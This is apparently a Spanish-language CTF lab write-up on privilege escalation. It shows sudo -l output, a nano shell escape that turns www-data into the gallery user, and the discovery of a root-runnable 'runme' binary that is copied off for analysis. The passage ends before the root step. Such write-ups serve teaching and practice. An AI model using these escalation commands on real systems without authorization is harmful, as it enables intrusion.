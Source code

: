 ## Escalate user gallery

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 1e028bf352fb:
    env_reset, mail_badpass, use_pty

User www-data may run the following commands on 1e028bf352fb:
    (gallery) NOPASSWD: /bin/nano
    (www-data) NOPASSWD: /bin/nano
```

Vemos que podemos ejecutar `nano` como el usuario `gallery` por lo que haremos lo siguiente:

```shell
sudo -u gallery nano

#Dentro del nano
^R^X
reset; bash 1>&0 2>&0
```

Lo ejecutamos y veremos lo siguiente:

```
gallery@1e028bf352fb:/tmp$ whoami
gallery
```

Veremos que seremos el usuario `gallery`.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for gallery on 1e028bf352fb:
    env_reset, mail_badpass, env_keep+=PATH, use_pty

User gallery may run the following commands on 1e028bf352fb:
    (ALL) NOPASSWD: /usr/local/bin/runme
```

Vemos que podemos ejecutar el binario `runme` como el usuario `root` por lo que vamos a investigar que hace dicho binario.

Vamos a pasarnos el binario a nuestro `host`.

```shell
cd /usr/local/bin/
python3 -m http.server
```

Desde nuestro host:

```shell
wget http://<IP_VICTIM>:8000/runme
```
